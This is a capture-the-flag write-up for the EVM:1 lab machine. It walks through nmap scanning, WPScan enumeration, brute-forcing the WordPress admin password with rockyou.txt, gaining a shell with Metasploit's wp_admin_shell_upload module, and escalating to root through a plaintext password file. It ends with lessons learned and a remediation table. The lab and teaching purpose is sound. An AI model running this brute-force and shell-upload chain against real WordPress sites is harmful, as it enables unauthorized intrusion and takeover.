



# EVM: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.103 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag (`/root/proof.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/evm-1-vulnhub-walkthrough/) |

---

## Attack Summary

EVM:1 runs a WordPress site accessible via an HTML comment in the default Apache page. A vulnerable plugin (`c0rrupt3d_brain`) is enumerated with WPScan. The admin password is brute-forced from rockyou.txt. Metasploit's authenticated WordPress shell-upload module provides a Meterpreter session. A root password stored in a plaintext file in the user's home directory enables full privilege escalation.

---

## Methodology

1. Port scan: SSH, DNS, HTTP, POP3, IMAP, SMB open
2. Web source review exposes `/wordpress/` path
3. WPScan plugin and user enumeration
4. WordPress admin password brute force
5. Metasploit `wp_admin_shell_upload` for RCE
6. Plaintext root password discovered in `/home/root3r/.root_password_ssh.txt`
7. `su root` with recovered password

---

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover
nmap -A 192.168.1.103
```

Open ports: **22** (SSH), **53** (DNS), **80** (HTTP), **110** (POP3), **139** (NetBIOS), **143** (IMAP), **445** (SMB).


---

## Step 2: Web Enumeration

Browse to `http://192.168.1.103`. The default Apache page contains an HTML comment pointing to `/wordpress/`. Confirm with dirb:

```bash
dirb http://192.168.1.103/
```



---

## Step 3: WordPress Enumeration with WPScan

```bash
wpscan --url http://192.168.1.103/wordpress/ -e at -e ap -e u
```

Findings:
- Vulnerable plugin: **c0rrupt3d_brain**
- Username: **c0rrupt3d_brain**


---

## Step 4: Password Brute Force

```bash
wpscan --url http://192.168.1.103/wordpress -U c0rrupt3d_brain \
  -P /usr/share/wordlists/rockyou.txt
```

Recovered password: **24992499**

> Note: on some WPScan versions use `--wordlist` instead of `-P`.

---

## Step 5: Exploitation via Metasploit

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.1.103
set TARGETURI /wordpress
set USERNAME c0rrupt3d_brain
set PASSWORD 24992499
run
```

A Meterpreter session opens.



---

## Step 6: Post-Exploitation — Credential Discovery

```bash
# Inside Meterpreter shell
shell
cd /home
ls
cd root3r
ls -la
cat .root_password_ssh.txt
```

The file contains the root password: **willy26**

---

## Step 7: Privilege Escalation to Root

```bash
# Spawn a proper TTY
python -c 'import pty;pty.spawn("/bin/bash")'

# Switch to root
su root
# Password: willy26

cat /root/proof.txt
```



---

## Lessons Learned

- HTML source comments in default server pages can expose application paths that would otherwise require active directory brute forcing.
- WPScan is indispensable for WordPress targets: it surfaces vulnerable plugins that open paths for brute force and authenticated exploitation.
- Storing credentials in plaintext files on the filesystem negates any access controls elsewhere in the stack.
- The Metasploit `wp_admin_shell_upload` module remains reliable whenever authenticated WordPress admin access is available.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| WordPress path leaked in HTML comment | Remove developer comments before deploying to production |
| Vulnerable WordPress plugin | Remove or update `c0rrupt3d_brain`; audit all installed plugins |
| Weak admin password crackable with rockyou.txt | Enforce strong, unique passwords; add brute-force rate limiting |
| Authenticated file upload leading to RCE | Harden WordPress file permissions; disable theme/plugin editing in `wp-config.php` |
| Root password stored in plaintext file | Never store credentials in plaintext on disk; use a secrets manager |
